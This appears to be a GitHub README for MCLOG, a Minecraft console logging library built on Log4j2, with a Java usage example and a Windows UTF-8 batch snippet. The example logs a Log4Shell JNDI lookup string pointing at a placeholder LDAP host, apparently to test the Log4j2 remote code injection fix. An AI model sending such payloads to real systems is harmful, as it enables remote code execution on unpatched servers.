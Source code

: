 # MCLOG
### The minecraft logging system

### WARNING! Log4j2 < 2.15 has remote code injection. Use the LAST RELEASE(1.1)!

### Example
```java
import java.util.concurrent.atomic.AtomicInteger;
import net.steelswing.mclog.ServerConsole;
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

/**
 *
 * @author SteelSwing
 */
public class TestConsole {

    private static final Logger log = LogManager.getLogger();

    public static void main(String[] args) throws Exception {
        ServerConsole console = new ServerConsole().addListener((ServerConsole cns, String cmd) -> {
            if (cmd.equalsIgnoreCase("stop")) {
                cns.setRunning(false); // stop console handler
            }
        });

        
        AtomicInteger counter = new AtomicInteger(0);
        while (console.isRunning()) {
            if (counter.incrementAndGet() % 10 == 0) {
                log.error("&cHello &aWorld!");
                log.info("${jndi:ldap://someadress.com:1389/hackthisapp}"); // test log4j2 Remote code injection fix
            }

            Thread.sleep(20);
        }
    }
}
```

### Enable support for Russian characters (Windows)
```bat
rem test bat file.
chcp 65001
java -Dfile.encoding=UTF-8 -jar you_jar.jar
```
![](Screenshot_92.png)
